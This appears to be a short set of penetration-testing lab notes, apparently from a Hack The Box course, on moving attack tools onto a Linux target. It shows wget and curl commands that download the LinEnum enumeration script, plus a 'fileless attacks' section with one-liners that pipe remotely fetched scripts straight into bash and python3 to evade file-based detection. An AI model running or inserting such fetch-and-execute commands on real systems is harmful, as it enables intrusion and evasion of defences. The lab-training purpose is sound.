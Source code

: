 ```bash
AhmaDb0x@htb[/htb]$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

```bash
AhmaDb0x@htb[/htb]$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

## Fileless Attacks Using Linux
`malicious code is executed directly in memory, without creating or using files on the target system. These attacks can bypass traditional file-based detection methods, as no artifacts are stored on disk.`

```bash
1- curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash

2- wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3

```
